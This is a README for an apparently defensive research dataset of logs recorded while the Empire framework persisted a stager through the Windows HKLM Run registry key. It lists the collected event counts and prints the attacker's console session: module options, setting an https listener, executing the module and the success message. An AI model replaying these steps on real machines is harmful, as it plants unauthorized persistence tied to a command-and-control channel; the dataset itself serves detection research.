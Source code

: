 # Empire Elevated Registry

Persist a stager (or script) via the HKLM:SOFTWARE\Microsoft\Windows\CurrentVersion\Run registry key.

## Technique(s) ID

T1060

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## Dataset

[empire_elevated_registry.tar.gz](./empire_elevated_registry.tar.gz)

## Network Environment

Shire

## Time Taken

2019-05-18183936

## About this file

| log_name                                 | source_name                         | task                                                   |   record_number |
|------------------------------------------|-------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | PowerShell                          | Pipeline Execution Details                             |             205 |
| Security                                 | Microsoft-Windows-Security-Auditing | Removable Storage                                      |             106 |
| Security                                 | Microsoft-Windows-Security-Auditing | Filtering Platform Connection                          |              72 |
| Security                                 | Microsoft-Windows-Security-Auditing | Token Right Adjusted Events                            |              63 |
| Security                                 | Microsoft-Windows-Security-Auditing | Handle Manipulation                                    |              37 |
| Security                                 | Microsoft-Windows-Security-Auditing | Registry                                               |              16 |
| Security                                 | Microsoft-Windows-Security-Auditing | Process Creation                                       |               4 |
| Security                                 | Microsoft-Windows-Security-Auditing | Group Membership                                       |               3 |
| Security                                 | Microsoft-Windows-Security-Auditing | Logoff                                                 |               3 |
| Security                                 | Microsoft-Windows-Security-Auditing | Logon                                                  |               3 |
| Security                                 | Microsoft-Windows-Security-Auditing | Authorization Policy Change                            |               2 |
| Security                                 | Microsoft-Windows-Security-Auditing | File System                                            |               2 |
| Security                                 | Microsoft-Windows-Security-Auditing | Special Logon                                          |               2 |
| Security                                 | Microsoft-Windows-Security-Auditing | File Share                                             |               1 |
| Security                                 | Microsoft-Windows-Security-Auditing | Process Termination                                    |               1 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Process accessed (rule: ProcessAccess)                 |             245 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Image loaded (rule: ImageLoad)                         |             132 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Network connection detected (rule: NetworkConnect)     |              59 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Registry object added or deleted (rule: RegistryEvent) |              40 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | File created (rule: FileCreate)                        |              25 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Pipe Connected (rule: PipeEvent)                       |              16 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Registry value set (rule: RegistryEvent)               |               5 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Process Create (rule: ProcessCreate)                   |               4 |
| Microsoft-Windows-Sysmon/Operational     | Microsoft-Windows-Sysmon            | Process terminated (rule: ProcessTerminate)            |               1 |
| Microsoft-Windows-PowerShell/Operational | Microsoft-Windows-PowerShell        | Executing Pipeline                                     |             172 |

## Attacker Activity

```
(Empire: TKV35P8X) > usemodule persistence/elevated/registry*
(Empire: powershell/persistence/elevated/registry) > info

              Name: Invoke-Registry
            Module: powershell/persistence/elevated/registry
        NeedsAdmin: True
         OpsecSafe: False
          Language: powershell
MinLanguageVersion: 2
        Background: False
   OutputExtension: None

Authors:
  @mattifestation
  @harmj0y

Description:
  Persist a stager (or script) via the
  HKLM:SOFTWARE\Microsoft\Windows\CurrentVersion\Run registry
  key. This has an easy detection/removal rating.

Comments:
  https://github.com/mattifestation/PowerSploit/blob/master/Pe
  rsistence/Persistence.psm1

Options:

  Name       Required    Value                     Description
  ----       --------    -------                   -----------
  Listener   False                                 Listener to use.                        
  ProxyCreds False       default                   Proxy credentials                       
                                                   ([domain\]username:password) to use for 
                                                   request (default, none, or other).      
  KeyName    True        Updater                   Key name for the run trigger.           
  RegPath    False       HKLM:SOFTWARE\Microsoft\  Registry location to store the script   
                         Windows\CurrentVersion\D  code. Last element is the key name.     
                         ebug                    
  Proxy      False       default                   Proxy to use for request (default, none,
                                                   or other).                              
  ExtFile    False                                 Use an external file for the payload    
                                                   instead of a stager.                    
  UserAgent  False       default                   User-agent string to use for the staging
                                                   request (default, none, or other).      
  Cleanup    False                                 Switch. Cleanup the trigger and any     
                                                   script from specified location.         
  ADSPath    False                                 Alternate-data-stream location to store 
                                                   the script code.                        
  Agent      True        TKV35P8X                  Agent to run module on.                 

(Empire: powershell/persistence/elevated/registry) > set Listener https
(Empire: powershell/persistence/elevated/registry) > execute
[>] Module is not opsec safe, run? [y/N] y
[*] Tasked TKV35P8X to run TASK_CMD_WAIT
[*] Agent TKV35P8X tasked with task ID 1
[*] Tasked agent TKV35P8X to run module powershell/persistence/elevated/registry
(Empire: powershell/persistence/elevated/registry) > Registry persistence established using listener https stored in HKLM:SOFTWARE\Microsoft\Windows\CurrentVersion\Debug.

(Empire: powershell/persistence/elevated/registry) > 
(Empire: powershell/persistence/elevated/registry) >
```